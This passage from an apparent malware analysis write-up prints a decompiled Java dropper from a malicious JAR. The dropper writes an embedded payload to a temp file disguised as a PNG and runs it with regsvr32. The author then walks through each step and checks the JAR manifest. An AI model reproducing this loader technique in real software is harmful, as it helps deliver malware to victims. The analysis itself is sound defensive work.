 The entirety of the Java code is 21 lines, so it's very brief.

```java
/*
 * Decompiled with CFR 0.149.
 */
import java.io.File;
import java.io.InputStream;
import java.nio.file.CopyOption;
import java.nio.file.Files;

public class kzFRaQVe {
    public static void main(String[] arrstring) {
        try {
            File file = new File(System.getProperty("java.io.tmpdir") + "\\317631.png");
            if (!file.exists()) {
                InputStream inputStream = kzFRaQVe.class.getResourceAsStream("317631");
                Files.copy(inputStream, file.getAbsoluteFile().toPath(), new CopyOption[0]);
            }
            Thread.sleep(1000L);
            Runtime.getRuntime().exec("regsvr32 /s " + System.getProperty("java.io.tmpdir") + "\\317631.png");
        }
        catch (Exception exception) {
            System.out.println("Error!");
        }
    }
}
```
{: file='kzFRaQVe.java'}

The code has a `main()` function, and it's the only Java class in the JAR, so it's a fair bet that this code is the entry point called when a victim opens the JAR. When it executes, it performs a few actions:

- Creates a file at `%TEMP%\317631.png` (example `C:\Users\admin\AppData\Local\Temp\317631.png`)
- Searches for a file in the JAR named `317631` and opens it using [`getResourceAsStream`](https://docs.oracle.com/javase/8/docs/api/java/lang/ClassLoader.html#getResourceAsStream-java.lang.String-)
- Copies the bytes from that file into `317631.png`
- [Sleeps](https://docs.oracle.com/javase/8/docs/api/java/lang/Thread.html#sleep-long-) for 1000 milliseconds (1 second)
- Executes the `317631.png` using `regsvr32.exe`, which indicates the PNG file is likely really a DLL

They were even nice enough to include exception handling!

Before we leave code analysis, it would be nice to confirm that `kzFRaQVe.class/.java` is the entry point for the JAR when clicked. We can confirm that by extracting `META-INF/MANIFEST.MF` from the JAR and inspecting it.

```text
$ cat META-INF/MANIFEST.MF 
Manifest-Version: 1.0
Main-Class: kzFRaQVe
Created-By: 17.0.6 (Oracle Corporation)

Name: kzFRaQVe.class
SHA-256-Digest: VX9uwaDheJmHPaZm1HL+wExnnhepBZ/o8hXG2E+trV8=

Name: x2NqLdqv.gif
SHA-256-Digest: S+ncC/R68x+y08cCuH/N988wJcudS+t5Fqshm3wprnI=

Name: 317631
SHA-256-Digest: qrnj0/kj98F2lN8705WuoREvh+Y1gMF2JXnEMFbTsto=
```
